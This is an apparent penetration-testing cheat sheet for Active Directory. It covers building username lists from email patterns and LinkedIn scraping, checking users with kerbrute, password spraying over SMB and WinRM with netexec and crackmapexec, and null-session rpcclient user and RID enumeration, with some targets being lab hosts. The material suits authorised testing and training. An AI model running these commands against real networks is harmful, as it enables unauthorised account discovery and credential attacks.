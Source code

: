 ### **GENERATE USER LIST**

1.  Websites like hunter.io help discover employee email patterns. For example, entering "apple.com" shows that emails often follow the pattern {f}{last}@apple.com. So, instead of finding each email, you can guess them. By scraping a list of Apple employees from LinkedIn, you can transform names into emails (e.g., Steve Jobs becomes s.jobs@apple.com). While not all guesses will be accurate, many should be correct.
    
2.  Alternatively, we can use a Python script to generate potential usernames  
    `wget https://gist.githubusercontent.com/superkojiman/11076951/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py`
    
3.  Once you have the list, we can verify if these usernames exist using kerbrute:  
    `kerbrute userenum --dc [IP-ADRESS] -d hackfast.local username.lst`  
    **NOTE:** you can also use username wordlist:  
    `/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt`
    

### **SMB ENUMERATION**

1.  Netexec with SMB:  
    `netexec smb [IP-ADRESS] -u users.txt -p '[PASSWORD]' --continue-on-success`
2.  CrackMapExec with SMB:  
    `crackmapexec smb [IP-ADRESS] -u users.txt -p '[PASSWORD]' --continue-on-success`

### **WINRM ENUMERATION**

1.  Netexec with Winrm:  
    `netexec winrm office.htb -u users.txt -p '[PASSWORD]' --continue-on-success`
2.  CrackMapExec with Winrm:  
    `crackmapexec winrm 10.10.10.184 -u users.txt -p '[PASSWORD]' --continue-on-success`

### **RPCCLIENT ENUMERATION**

1.  Start Null Session:  
    `rpcclient -U "" -N [IP_ADDRESS]`
    
2.  List All Users in the Domain:  
    `rpcclient -U "" -N [IP_ADDRESS] -c "enumdomusers" > output.txt`
    
3.  Extract User Names:  
    `cat output.txt | awk -F\[ '{print $2}' | awk -F\] '{print $1}' > users.lst`
    
4.  Brute Forcing User RIDs:  
    `for i in $(seq 500 1100); do rpcclient -N -U "" [IP_ADDRESS] -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name|user_rid|group_rid" && echo ""; done`